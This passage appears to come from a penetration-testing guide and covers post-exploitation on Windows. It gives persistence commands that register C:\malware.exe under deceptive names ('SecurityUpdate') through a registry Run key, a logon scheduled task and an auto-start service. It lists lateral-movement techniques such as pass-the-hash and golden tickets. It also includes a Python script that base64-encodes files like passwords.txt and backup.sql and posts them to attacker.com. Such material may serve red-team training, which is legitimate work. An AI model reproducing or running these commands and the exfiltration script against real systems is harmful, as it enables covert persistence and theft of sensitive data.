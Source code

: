 ### Post-Exploitation Activities

#### Persistence Mechanisms
```bash
# Windows persistence examples
# Registry autorun
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" 
    /v "SecurityUpdate" /t REG_SZ /d "C:\malware.exe"

# Scheduled task
schtasks /create /sc onlogon /tn "SecurityUpdate" 
    /tr "C:\malware.exe"

# Service creation
sc create "SecurityService" binpath= "C:\malware.exe"
sc config "SecurityService" start= auto
```

#### Lateral Movement
**Techniques:**
- Pass-the-Hash attacks
- Golden/Silver Ticket attacks  
- RDP/SSH credential reuse
- SMB relay attacks
- WMI/PowerShell remoting

#### Data Exfiltration
```python
# Example exfiltration script
import requests
import base64
import os

def exfiltrate_file(filepath, server_url):
    with open(filepath, 'rb') as f:
        file_data = base64.b64encode(f.read()).decode()
    
    payload = {
        'filename': os.path.basename(filepath),
        'data': file_data
    }
    
    requests.post(server_url, json=payload)

# Usage
sensitive_files = [
    "C:\\Users\\admin\\Documents\\passwords.txt",
    "C:\\database\\backup.sql"
]

for file in sensitive_files:
    if os.path.exists(file):
        exfiltrate_file(file, "http://attacker.com/upload")
```
